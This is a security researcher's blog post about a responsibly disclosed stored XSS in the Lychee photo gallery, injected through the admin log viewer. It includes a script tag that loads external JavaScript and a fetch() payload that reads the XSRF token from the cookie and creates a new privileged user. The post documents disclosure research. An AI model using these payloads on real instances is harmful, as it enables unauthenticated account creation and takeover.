 Title: Cross-Site Scripting in Lychee
Date: 10-22-2022 14:25
category:security
tags:security, XSS
meta:security, XSS

<img class="align-left" src="/media/2022.10/xss_album_title_1.png" alt="XSS in Lychee" width="262">

[Lychee](https://lycheeorg.github.io/) is a self-hosted photo-management and gallery.
I am using the [Lychee](https://lycheeorg.github.io/) application for my personal usage (mostly
sharing pictures with the family).

The application has been greatly improved since the last update of my instance.
I fired up a [docker](https://hub.docker.com/r/lycheeorg/lychee) and start taking a look at the
application for new features.
It was not long before I found a few XSS, one of them could allow unauthenticated users to to gain
logged access to the platform by creating a new account.

I reported the issues to the project and we created a
[Github Security Advisory](https://docs.github.com/en/code-security/repository-security-advisories/about-github-security-advisories-for-repositories):
[https://github.com/LycheeOrg/Lychee-front/security/advisories/GHSA-cr79-38hg-27gv](https://github.com/LycheeOrg/Lychee-front/security/advisories/GHSA-cr79-38hg-27gv).

<!-- PELICAN_END_SUMMARY -->

The lychee application create an administrator account the first time the application is browsed.
This account is the only one with administrative privileges (account management, logs and
diagnostics) and is expected to have full access to the underlying server (shell access). In
addition, this account has access to all photos and albums
uploaded by the different users.

All this privileges made this account attractive for XSS payloads and attacks.
Note that the session cookie was `HttpOnly` and that the `XSRF` cookie was not, it will matter later
in the exploitation phase.

# Insertion points

Only the admin can create a user account while there is a few authenticated insertions points
(photo and album title, username once the user changed it) they are not that interesting as the
admin probably trust the new users or even does not create user accounts.

![xss in album title](/media/2022.10/xss_album_title_0.png)
![xss in album title](/media/2022.10/xss_album_title_1.png)

I focused on unauthenticated insertion points.

## Logs logs logs

The admin user has access to a "Show Logs" administrative function. I quickly noticed that
authentication attempts where displayed in the logs including the user controlled `user` parameter.

## Log injection - alert(1)

It was relatively easy to try to login as the `<script>alert(1)</script>` user and trigger an alert
in the admin session (the screenshot below is when the user change its username but the result is the
same as we inject the logs).

![unauthenticated xss in album title](/media/2022.10/xss_username_log.png)

It is possible for an attacker to perform
[log injection](https://owasp.org/www-community/attacks/Log_Injection) using this entry point.

## Beyond alert(1)

I wanted to go beyond an alert pop-up, we want a user account. Using the username
`<script src='172.0.0.1/a.js"/>`, I was able to inject a longer JavaScript payload that would
request the API endpoint `User::create` passing in POST parameters its username, password and
privileges. I also retrieve the `X-XSRF-TOKEN` value from the cookie as it was not `HttpOnly` (I
recommended to the team to add this flag to the XSRF cookie but that
was not possible as they also needed to access it using JavaScript.)


    :::javascript
    fetch('http://172.17.0.2:80/api/User::create',{
        // create a POST request to be sent to the lychee instance located at `172.17.0.2`
        method: 'POST',
        // setup the headers
        headers: {
            'Content-Type': 'application/json',
            'Accept': 'application/json, text/javascript, */*; q=0.01',
            //the X-XSRF-TOKEN is retrieve from the cookie store as it is not `HttpOnly`
            'X-XSRF-TOKEN': document.cookie.split('=')[1].split('%')[0],
            'X-Requested-With': 'XMLHttpRequest',
    },
        // body of the request containing the payload to create a new user with upload privileges
        body: '{"username":"xss_1","password":"xss","may_upload":true,"is_locked":false}'
    })

Once the new account was created I was able to browse the application as an authenticated user and
upload photos and images on the server.

